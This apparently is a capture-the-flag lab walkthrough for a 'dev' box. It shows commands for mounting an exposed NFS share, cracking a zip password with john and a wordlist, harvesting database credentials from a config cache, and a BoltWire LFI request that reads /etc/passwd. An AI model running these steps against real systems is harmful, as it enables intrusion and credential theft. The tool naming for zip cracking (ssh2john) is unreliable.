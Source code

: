 ## nfs

We can also take a look at the 2049 nfs port

We check what folders we can mount with 

`showmount -e 192.168.120.136`

We see that we can mount `/srv/nfs`

We use this command: `sudo mount -t nfs 192.168.120.136:/srv/nfs /tmp/dev -o nolock`

There is a `save.zip` file that we will have to use ssh2john to unzip

`ssh2john save.zip > hash.txt`

`john hash.txt --wordlist=rockyou`

The password is `java101` and we unzip two files

A private rsa key, and a todo.txt that is signed by a "jp"


---


## dev.tcm

Looking through the dev.tcm port 80 directories, we can find some possible creds in
`dev.tcm/app/cache/config-cache.json`

```
            "driver": "pdo_sqlite",
            "host": "localhost",
            "slaves": [],
            "dbname": "bolt",
            "prefix": "bolt_",
            "charset": "utf8",
            "collate": "utf8_unicode_ci",
            "randomfunction": "RANDOM()",
            "databasename": "bolt",
            "username": "bolt",
            "password": "I_love_java",
            "user": "bolt",
            "wrapperClass": "Bolt\\Storage\\Database\\Connection",
            "path": "/var/www/html/app/database/bolt.db"
```

We can log into `dev.tcm:8080/dev` with these creds

`bolt:I_love_java`

I_love_java


---

## boltwire

We know the website is using boltwire. 

We do a searchsploit for boltwire and see there is an LFI exploit for v6.03

The LFI exploit works when logged in as `bolt`

Example:

```
http://dev.tcm:8080/dev/index.php?p=action.search&action=../../../../../../etc/passwd
```

Looking at the user list we see that jeanpaul is a user... we have his rsa private key


---



